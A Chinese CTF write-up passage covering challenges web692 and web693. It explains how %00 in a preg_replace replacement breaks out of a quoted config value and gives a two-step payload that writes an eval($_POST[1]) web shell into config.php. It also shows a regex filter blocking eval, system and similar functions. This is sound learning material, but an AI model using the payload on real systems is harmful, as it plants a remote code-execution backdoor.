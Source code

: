 ##  web692

考点：preg_replace的正则特性

```php
<?php

highlight_file(__FILE__);

if(!isset($_GET['option'])) die();
$str = addslashes($_GET['option']);
$file = file_get_contents('./config.php');
$file = preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);
file_put_contents('./config.php', $file);
```

![image-20220701225823421](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220701225823421.png)



preg_replace中的第二个参数如果是%00也就是ascii中的0,那么将会匹配到整个字符串。

比如初始的字符串为
$option='xxx';
如果执行
preg_replace("$option='.*';","\x00",$a)
那么返回的结果是
$option='$option='xxx';';
其实就是把原来的字符串又放到单引号里面了。
假设我们第一次传option=;phpinfo();//
首先config.php中的内容会被替换成$option=';phpinfo();//'。
如果我们第二次传option=%00
那么最终的结果是$option='$option=';phpinfo();//''
这样就逃出了单引号，phpinfo()也就执行成功

payload

```
option=;eval($_POST[1]);//
option=%00
```

##  web693

考点：extract实现变量覆盖，进行文件包含

function.php

```php
<?php
function filters($data){
    foreach($data as $key=>$value){
        if(preg_match('/eval|assert|exec|passthru|glob|system|popen/i',$value)){
            die('Do not hack me!');
        }
    }
}
?>
```

